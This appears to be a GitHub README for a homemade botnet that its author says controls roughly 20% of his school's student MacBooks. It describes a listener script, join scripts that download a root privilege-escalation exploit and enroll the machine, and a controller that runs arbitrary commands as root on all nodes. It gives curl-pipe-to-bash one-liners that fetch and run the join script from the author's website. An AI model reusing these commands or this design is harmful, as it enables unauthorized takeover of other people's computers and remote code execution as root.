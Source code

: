 # net
Some code which I use to run a rudimentary botnet which controls roughly 20% of the MacBooks my school provides to students.

This code only really works with MacBooks using OS X 10.11.6 and before. The joining scripts make some assumptions about configuration since they're only designed to be run on GMHS MacBook Airs.

I do not endorse the use of this code for malicious purposes.

## How it works
### Listening
The botnet is controlled by a simple Python script which opens a socket on port `2043`. Currently the server simply listens for incoming connections and accepts data on new nodes, which are then stored in `nodes.txt`.

### Joining
Two scripts are used to join a computer to the network, `join.sh` and `enact.sh`. `join.sh` allows one-run joining: it will download the exploit needed to elevate to a root shell and then run `enact.sh` in that root shell automatically, which will handle joining the botnet. This mitigates the need to manually download the exploit, mark it as executable, run it, bla bla bla. Just run this script and you'll be good.

Here's a simple one-liner to join the botnet (all the scripts are up on my website for simplicity of URLs):

```sh
curl https://erikboesen.com/downloads/join.sh | bash
```

or if you like simple URLs:

```sh
curl -L erikboesen.com/downloads/join.sh | bash
```

### Controlling
Running `run.sh` followed by a string giving the command you'd like to run will cause all nodes in `nodes.txt` (in your working directory) to run that command as root.

## Licensing
This software was created by [Erik Boesen](https://github.com/ErikBoesen) and is available under the [MIT License](LICENSE).
